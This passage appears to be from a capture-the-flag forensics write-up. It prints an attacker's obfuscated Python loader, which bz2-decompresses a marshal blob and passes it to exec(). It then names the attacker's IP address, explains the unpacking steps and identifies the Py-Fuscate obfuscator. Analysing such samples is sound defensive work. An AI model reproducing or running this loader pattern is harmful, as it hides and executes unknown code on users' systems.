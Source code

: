 ```
{"script":"\ntry:\n\timport marshal,lzma,gzip,bz2,binascii,zlib;exec(marshal.loads(bz2.decompress(b'BZh91AY&SY\\x8d*w\\x00\\x00\\n\\xbb\\x7f\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xfe\\xee\\xec\\xe4\\xec\\xec\\xc0?\\xd9\\xff\\xfe\\xf4\"|\\xf9`\\r\\xff\\x1a\\xb3\\x03\\xd1\\xa0\\x1e\\xa9\\x11\\x07\\xac\\x9e\\xef\\x1e\\xeez\\xf5\\xdb\\xd9J\\xde\\xce\\xa6K(\\xe7\\xd3\\xe9\\xcd\\xa9\\x93\\rS@M\\x134&\\r\\x11\\x94xF\\x11\\xa6\\x89\\xb2\\x99\\xa6\\x94\\xf0\\x1ai\\xa1\\xa6\\x9a\\x03AF\\xd1\\x1e\\x9e\\xa1\\x9a\\xa7\\x89\\xa6L\\x84\\xf5\\x1ayC\\xd44z\\x993S h\\r\\x0f)\\xe9\\x03@\\x03LG\\xa9\\xa0\\x1a\\x04DI\\xe8\\x19$\\xf4\\xc9\\xe92a\\xa3D\\xc9\\x9aL\\x11\\x81O\\'\\xa4\\x9e\\x935=M\\xa4\\xd0\\xd1\\xa6&F\\x81\\x93L\\x86\\x80\\x00\\x00\\x06\\x80\\x00\\x00\\x00
[...CLIP...]
\\xe0\\x00')))\nexcept KeyboardInterrupt:\n\texit()\n"}
```
Since it is safe to assume that this is the exploit used by the attacker, we can confirm 194.59.6.66 as our attacker.

This code appears to be an obfuscated Python script likely designed for malicious purposes.

- It imports several compression libraries (`lzma`, `gzip`, `bz2`, and `zlib`) along with the `marshal` module—a built-in serialization and deserialization library similar to `pickle`.
- The script then decompresses the embedded data
- Deserializes the result
- Executes the final payload via `exec()`
### [2/6] What is the name of the endpoint exploited by the attacker?

I am not going to lie, I didn't end up getting this one as I was overlooking the hostname in the POST request. It was my last day working on the challenge and my brain was running on fumes I was assuming I was looking for some form of a domain name.

### [3/6] What is the name of the obfuscation tool used by the attacker?

Understanding the final payload hidden beneath these layers is crucial. To achieve this, we will create a script that reproduces the reverse process, allowing us to uncover exactly what is being executed.

At first I initially just by reversing the decompression. I quickly spun up a quick python script to do so. (I overwrote my scripts way to much so just an image will do)
![](Images/Pasted%20image%2020250327225452.png)
In the giant block of mostly unreadable text we were able to find the obfuscation tool Py-Fuscate.